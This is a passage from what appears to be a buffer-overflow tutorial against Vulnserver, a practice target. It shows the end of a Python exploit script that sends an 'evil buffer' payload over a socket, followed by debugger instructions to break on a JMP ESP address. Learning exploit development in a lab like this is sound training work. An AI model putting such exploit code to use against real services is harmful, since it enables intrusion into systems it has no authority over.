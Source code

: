 ```python
# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```

Before you run this you should set a breakpoint on the address `625011af`. Reset the server and then use the black arrow in the menubar:

![Go to JMP ESP address](/assets/img/vulnserver_3_goto.png)
